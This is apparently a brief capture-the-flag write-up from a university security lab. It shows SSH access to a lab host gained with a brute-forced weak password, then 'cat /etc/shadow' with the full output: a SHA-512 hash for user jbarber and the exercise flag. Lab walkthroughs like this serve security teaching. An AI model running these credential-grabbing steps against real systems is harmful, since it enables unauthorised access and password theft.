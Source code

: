 # 07

### bis.fit.vutbr.cz

1.) `grep "bis\|ptest" $HOME -R --text`

  * `jbarber@ptest1.bis.mil`

2.) `ssh jbarber@ptest1.bis.mil`

  * brute forcing password

3.) password is `welcome`

4.) `cat /etc/shadow`

```
root:Ziskali jste tajemstvi A_20-11-16-10-01_2808ed0cf1d2ad2024a572ae6075f14cbe9c4e5103493dc088cf846d0ffa9f0d:17421:0:99999:7:::
bin:*:17110:0:99999:7:::
daemon:*:17110:0:99999:7:::
adm:*:17110:0:99999:7:::
lp:*:17110:0:99999:7:::
sync:*:17110:0:99999:7:::
shutdown:*:17110:0:99999:7:::
halt:*:17110:0:99999:7:::
mail:*:17110:0:99999:7:::
operator:*:17110:0:99999:7:::
games:*:17110:0:99999:7:::
ftp:*:17110:0:99999:7:::
nobody:*:17110:0:99999:7:::
systemd-network:!!:17421::::::
dbus:!!:17421::::::
polkitd:!!:17421::::::
rpc:!!:17421:0:99999:7:::
rpcuser:!!:17421::::::
nfsnobody:!!:17421::::::
postfix:!!:17421::::::
chrony:!!:17421::::::
sshd:!!:17421::::::
jbarber:$6$Gyae4RJI$Jo/tDBWGTXpkK2c6jyDyFR5.7qjMOKc4x1AE7ECEw9iHjBIJNhq/KIbHopY198a98TmOP63odi11s6H9nZWuO1:17834:0:99999:7:::
tss:!!:17834::::::
```

4.) **Ziskali jste tajemstvi A_20-11-16-10-01_2808ed0cf1d2ad2024a572ae6075f14cbe9c4e5103493dc088cf846d0ffa9f0d**
